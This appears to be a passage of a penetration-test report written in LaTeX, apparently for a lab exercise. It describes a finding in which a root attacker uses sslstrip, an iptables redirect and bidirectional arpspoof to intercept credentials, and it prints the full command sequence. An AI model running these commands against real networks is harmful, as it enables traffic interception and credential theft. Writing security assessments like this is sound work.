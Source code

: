 \documentclass[notitlepage]{article}
\begin{document}
	\subsubsection*{Mitigation or Resolution Strategy}
    The best mitigation for this would be to have l.strauss change his credentials and avoid storing all passwords in plaintext at all costs. Easily discoverable passwords
    led to this attack to begin with.

    \subsection{Finding: \emph{Credential Access to Secret Page}}
  
	\subsubsection*{Severity Rating}	    
    Risk: Medium \\
    \cvss(A,H,L,N,U,H,L,N,5.4)
		
  	\subsubsection*{Vulnerability Description}
    Once the attacker has root access to the system, they can copy over sslstrip, tcpdump, and arpspoof to packet sniff incoming and outgoing packets. They can use these packets to 
    mount an SSL stripping attack. The attacker can then use arpspoof to mount a man in the middle attack. The TLS packets that are normally encoded can then be unencrypted using sslstripping
    tools which reveals a set of credentials as well as a secret website with sensitive user information. We can see an invoice for a set of superhero gauntlets which is information that should
    not be known by the public. 
   
  	\subsubsection*{Confirmation method}
    We can scp over the initial files we need to mount the attack. Once we have all the essential executables, we can execute the following commands as a root user.
\begin{verbatim}
fuser -k 80/tcp
echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT 
--to-port 6166

python3 sslstrip.py -w strip.logs -l 6166 -a
tail -f strip.log
TWO DIFFERENT TERMINALS:
route -n to find gateway (10.70.184.1)
wireshark to find host ip to spoof (10.70.184.101)
Terminal 1:
./arpspoof -i ens32 -t 10.70.184.101 10.70.184.1
Terminal 2:
./arpspoof -i ens32 -t 10.70.184.1 10.70.184.101
\end{verbatim}
   
\end{document}
